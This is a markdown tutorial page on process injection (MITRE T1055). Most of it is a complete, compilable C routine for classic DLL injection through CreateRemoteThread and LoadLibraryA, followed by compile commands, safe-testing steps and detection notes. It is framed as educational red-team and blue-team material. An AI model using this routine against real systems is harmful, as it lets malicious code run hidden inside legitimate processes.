 # Code Samples: T1055 Process Injection

⚠️ **SECURITY WARNING**: These code samples are for educational and authorized testing purposes only. Do not use in production environments or against systems you do not own.

## Example: Classic DLL Injection (C)

### Educational Implementation
```c
#include <windows.h>
#include <stdio.h>

/*
 * SECURITY NOTICE: This code demonstrates process injection for:
 * - Red team authorized testing
 * - Security research and education
 * - Blue team detection validation
 * 
 * LEGAL WARNING: Unauthorized use is illegal and may violate:
 * - Computer Fraud and Abuse Act (US)
 * - Similar laws in other jurisdictions
 */

BOOL InjectDLL(DWORD targetPid, const char* dllPath) {
    HANDLE hProcess = NULL;
    LPVOID allocMem = NULL;
    HANDLE hThread = NULL;
    BOOL success = FALSE;
    
    // Error handling and validation
    if (!dllPath || strlen(dllPath) == 0) {
        printf("[-] Invalid DLL path\n");
        return FALSE;
    }
    
    // Open target process with required permissions
    hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                          PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, 
                          FALSE, targetPid);
    if (!hProcess) {
        printf("[-] Failed to open process %d. Error: %d\n", targetPid, GetLastError());
        return FALSE;
    }
    
    size_t dllPathLen = strlen(dllPath) + 1;
    
    // Allocate memory in target process
    allocMem = VirtualAllocEx(hProcess, NULL, dllPathLen, MEM_COMMIT, PAGE_READWRITE);
    if (!allocMem) {
        printf("[-] Failed to allocate memory. Error: %d\n", GetLastError());
        goto cleanup;
    }
    
    // Write DLL path to target process
    if (!WriteProcessMemory(hProcess, allocMem, dllPath, dllPathLen, NULL)) {
        printf("[-] Failed to write memory. Error: %d\n", GetLastError());
        goto cleanup;
    }
    
    // Get address of LoadLibraryA
    LPVOID loadLibAddr = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (!loadLibAddr) {
        printf("[-] Failed to get LoadLibraryA address\n");
        goto cleanup;
    }
    
    // Create remote thread to load DLL
    hThread = CreateRemoteThread(hProcess, NULL, 0, 
                                (LPTHREAD_START_ROUTINE)loadLibAddr, 
                                allocMem, 0, NULL);
    if (!hThread) {
        printf("[-] Failed to create remote thread. Error: %d\n", GetLastError());
        goto cleanup;
    }
    
    // Wait for injection to complete
    WaitForSingleObject(hThread, INFINITE);
    printf("[+] DLL injection completed successfully\n");
    success = TRUE;
    
cleanup:
    if (hThread) CloseHandle(hThread);
    if (allocMem) VirtualFreeEx(hProcess, allocMem, 0, MEM_RELEASE);
    if (hProcess) CloseHandle(hProcess);
    
    return success;
}

// Example usage (for testing only)
int main() {
    // REMINDER: Only use against systems you own or have permission to test
    printf("[*] Process Injection Example - Educational Use Only\n");
    printf("[*] Ensure you have authorization before testing\n");
    
    // Example: Inject into notepad.exe (start notepad first)
    // DWORD pid = GetProcessIdByName("notepad.exe");
    // InjectDLL(pid, "C:\\path\\to\\your\\test.dll");
    
    return 0;
}
```

### Compilation Instructions
```bash
# Using MinGW or Visual Studio
gcc -o inject.exe inject.c -lkernel32
# or
cl inject.c /link kernel32.lib
```

### Testing Safely
1. Use a dedicated test environment (VM recommended)
2. Create a harmless test DLL (e.g., one that just shows a message box)
3. Test against processes you control (e.g., notepad.exe)
4. Monitor with Process Monitor to observe behavior

### Detection Considerations
This injection method is easily detected by:
- EDR solutions monitoring CreateRemoteThread calls
- Process hollowing detection
- Memory scanning for injected code
- Behavioral analysis of unusual process relationships
